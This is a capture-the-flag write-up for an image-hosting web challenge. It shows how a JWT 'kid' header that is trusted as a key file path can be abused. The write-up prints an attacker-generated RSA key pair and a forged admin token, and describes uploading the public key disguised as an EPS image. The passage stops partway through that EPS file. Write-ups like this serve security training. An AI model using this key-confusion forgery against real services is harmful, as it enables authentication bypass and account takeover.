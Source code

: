 Attachments:  
 * imagehost.zip

In this zip file there is a python implementation of an imagehost web server.  
This implementation contains code for session handling via JSON Web Tokens:  
```python  
from pathlib import Path

import jwt

def encode(payload, public_key: Path, private_key: Path):  
	key = private_key.read_bytes()  
	return jwt.encode(payload=payload, key=key, algorithm="RS256", headers={"kid": str(public_key)})

def decode(token):  
	headers = jwt.get_unverified_header(token)  
	public_key = Path(headers["kid"])  
	if public_key.absolute().is_relative_to(Path.cwd()):  
		key = public_key.read_bytes()  
		return jwt.decode(jwt=token, key=key, algorithms=["RS256"])  
	else:  
		return {}  
```

Creating a token via login produces something like this  
```  
eyJhbGciOiJSUzI1NiIsImtpZCI6InB1YmxpY19rZXkucGVtIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjozLCJhZG1pbiI6bnVsbH0.O46AMfAsFuXqRNkf00FrDYGQN1lqt7M3gAExp-
RXv7C1Po4TUNnnnpb_DR8UrrBYIfn1kvXBxQzXr2EqJduh67fs3MRGaYXmSyLkQ26QBDfuF-L6A89e4g5Jf4qE3jirp210i1q2374vqVW9VeCoP7hfkLlPuSK5VDAm8BfDaSRF4odWH1klpT_fo03NsVpahg1H0sgak0lDvAssVXcbhZ-8KRo64QOcL8tKjZzbCsoll-
rfxgyKdGRyLgVxBRw6Kay1ei_dG6j7mNGnQupNr8fy9IdCexEOABjAHoI640cujOl7z0g2SUB4tzG7txVbRm15jcysBvD_NVonvoE3VGUgbSg_V5lkj5ofLNWCh9jN7hlj6xEXql3QzsVWJQHgYm5dpEuoxizXdozqvi6AOKn6SR5BG1jHYs1XCnSW5XnqbO6OBfTdSTYas1lRJ-
NCzsvJs3wYEbjHJp9CDMA9NCJJVDTZ7EkMyhrN7CJH8LHGU8ZrTkqKFKl3_bQeQWmgfI9URIatlLafnk8aw7YkOU4gkXJqZvtwpfaMYF8GgIujeVM7I8c11jPF-k58OAM7lUOOpBsK_fW9JQQ9_VZqF6pJltKpwR3I-saRcyL3p6M-3CpwWI2FS4bqfkcQDj9wuqxEF45uP-
wn3TyqAteV1wX_Ei7N5uVNQ8cHSFIigPI  
```  
This can be decoded via https://jwt.io/  
The header  
```  
{  
 "alg": "RS256",  
 "kid": "public_key.pem",  
 "typ": "JWT"  
}  
```  
The payload  
```  
{  
 "user_id": 3,  
 "admin": null  
}  
```

We suspect that we can upload our own public key pretending it is an image
file.  
We will sign our payload containing the admin user_id, with a known private
key. Then use our own public key to check the signature.

For signing our own payload  
Public Key:

```  
-----BEGIN PUBLIC KEY-----  
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAr79D8wfWGTEBR5z/hSI6  
W799WS+kCZoYw0UqooJQ5nzld1mGwgNW+yNyxHdDaBfxjFtetW6anDaissUpQqRl  
jVRIvt3Mo85t4pgoRJEiUFQ6YtsLaUXax/ZMaYmhilf7IvlkEX9fn6bPlpBOqGFe  
4FhrEhyt38rOiBtAxWm0pcRyWHZ+LuCbmJu41+AGTzfNiGFWJSQ7yN0w5sASpdkN  
U+mdYez2CbyqrQdPRJtilLdFzggFYiVD8EfabsOTTKUkIi+Zgg8MRRvMm+xYIxex  
4Vawf8devya18NRoN+aIahCdA753hpAcuDldzUEtPytuS+1946+KUdpPFWiKUgaM  
YQIDAQAB  
-----END PUBLIC KEY-----  
```

Private Key:  
```  
-----BEGIN PRIVATE KEY-----  
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQCvv0PzB9YZMQFH  
nP+FIjpbv31ZL6QJmhjDRSqiglDmfOV3WYbCA1b7I3LEd0NoF/GMW161bpqcNqKy  
xSlCpGWNVEi+3cyjzm3imChEkSJQVDpi2wtpRdrH9kxpiaGKV/si+WQRf1+fps+W  
kE6oYV7gWGsSHK3fys6IG0DFabSlxHJYdn4u4JuYm7jX4AZPN82IYVYlJDvI3TDm  
wBKl2Q1T6Z1h7PYJvKqtB09Em2KUt0XOCAViJUPwR9puw5NMpSQiL5mCDwxFG8yb  
7FgjF7HhVrB/x16/JrXw1Gg35ohqEJ0DvneGkBy4OV3NQS0/K25L7X3jr4pR2k8V  
aIpSBoxhAgMBAAECggEAAvgAFsgTSzkFQpN9yz7gFZ5NKLNV4fnj+NH3ebfp9A/I  
bEkDTk4SQ0MmuFgDp+uuH1LojVfrRY/kdRDArP0UEFRr92ntn9eACpGrjfd16P2Y  
QCTfOym0e7fe0/JQy9KHRfCoqqVAPTUbGPnyczSUXsWtlthsTT1Kuni74g3SYPGy  
pQuO9j2ICP8N9AeNh2yGHf3r2i5uKwOCyErniwzzBHJPBcMHfYD3d8IOTgUTmFLg  
esBAzTEwLmAy8vA0zSwGfFaHMa0OhjZrc+4f7BUU1ajD9m7Uskbs6PMSjqLZYzPG  
ctCkIeyaLIc+dPU+3Cumf5EkzcT0qYrX5bsadGIAUQKBgQD3IDle2DcqUCDRzfQ0  
HJGoxjBoUxX2ai5qZ/2D1IGAdtTnFyw73IZvHzN9mg7g5TZNXSFlHCK4ZS2hXXpy  
lePML7t/2ZUovEwwDx4KbenwZLAzLYTNpI++D0b2H53+ySpEtsA6yfq7TP+PWa2x  
UnLCZqnwZcwrQd/0equ58OLJ0QKBgQC2Dt8il/I0rTzebzfuApibPOKlY5JyTTnU  
BmJIh8eZuL5obwRdf53OljgMU5XyTy7swzot4Pz7MJlCTMe/+0HvjuaABcDgmJd/  
N4gcuR+chOiYw7Bc2NSyGodq2WR/f/BiMcXBAbqEALbXAQy9mkCH4xePTdEA3EPY  
Xml3SDCtkQKBgGv67JaAqzoV4QFLmJTcltjEIIq1IzeUlctwvNlJlXxocAa5nV5a  
sXMEkx8inbWu8ddEBj+D17fyncmQatx+mhayFJ98lyxBepjVQi8Ub8/WbxctoIWq  
jhRh4IPStNqLU6jKoZwOfTwyHMiqSrbca8B902tzT47nLdBJeZe5pZ7BAoGAHIBv  
hmbrUDvez6PxyZ02bvc1NFdGUgatCviE4n3/TZ2SkZ7vvAOCnRj/ZU6gpvKmkgJu  
VUhn0ptlIvAKRY/8XpislVZRP9gjv5LeCEEjJcnY8DGSprZ7dfaZRK0MArnw1C6e  
mvy+SnQiK77KU9SWTa/LvG+eTNgu9uyw7i+rD0ECgYBKphKWj9ru+Q0Bp5IHCBn5  
PXhCuCzaHdWhka8tl44LjBSLLect2PA9oFiKEUA8HSnYylAnZ1LCca7uTrK9jJlL  
metr5MaO3e9xDzlq4CcEo3+7KyVhDTylzM7pfx3QjcSrwtZYiNTRU+1pEPfIqXv5  
I8STSTbbJXCTwQ9LY2TXvw==  
-----END PRIVATE KEY-----  
```

The modified header:  
```  
{  
 "alg": "RS256",  
 "kid": "/a/our_own_public_key.pem",  
 "typ": "JWT"  
}  
```

The modified session payload  
```  
{  
 "user_id": 1,  
 "admin": null  
}  
```  
We can create the needed token with the token.py functions given by the task
source

```  
>>> from pathlib import Path  
>>> encode({"user_id": 1, "admin": True}, Path('../../public_key.pem'),
Path('../../private_key.pem'))  
'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii4uLy4uL3B1YmxpY19rZXkucGVtIn0.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6dHJ1ZX0.oGlGsmuASM6q4oxmhMVXVscY0xZyBnex8W5VuKPBWlporlGgrn9LdoHqi4aLel6P1VxRvCDptRX9_tmNQzcUSTl3fLkPkrIUAFb-
Wf0ZHpIsQ6j2_kmTEZMoenr72B6G9MUg4Z_qh1Y8JM5DtTENWpC1pM_KfKGJorfT_6wgseaBxvm7PDDQyuPAVD4gAY0PUR2_VJH3M4h94e0c2Gc2sIh-
ZjbRyDnhVN9qaM0z54gNbHklEIPlrHt2PxoxC3yowbR9aFV0kdy9fk54EtFIpOKVGj84Bs3Q3rXnILvLr1KEryiw4wyqSJ2cSkeiuAikXCpd-
_SGsw_DU1Xdng6FsA'  
```  
We created + uploaded postscript 1x1p image with public key attached  
```  
%!PS-Adobe-3.0 EPSF-3.0  
%%Creator: GIMP PostScript file plug-in V 1,17 by Peter Kirchgessner  
%%Title: evil.eps  
%%CreationDate: Sun Apr 14 02:06:11 2024  
%%DocumentData: Clean7Bit  
%%LanguageLevel: 2  
%%Pages: 1  
%%Boun